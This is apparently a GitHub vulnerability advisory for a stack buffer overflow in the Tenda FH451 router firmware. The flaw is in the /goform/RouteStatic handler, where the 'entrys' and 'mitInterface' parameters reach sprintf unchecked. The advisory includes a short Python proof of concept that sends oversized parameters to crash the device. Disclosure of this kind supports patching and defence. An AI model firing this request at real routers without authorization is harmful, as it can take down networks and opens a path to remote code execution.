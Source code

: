 # Tenda FH451 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda [FH451_V1.0.0.5](https://www.tenda.com.cn/download/detail-1375.html) and tenda[FH451_V1.0.0.7](https://www.tenda.com.cn/download/detail-1594.html).
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun1.png)
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun2.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@XYlearn](https://github.com/XYlearn) and [@Funcy_kilar](https://github.com/Funcy33) from Fudan University, Guangzhou University.
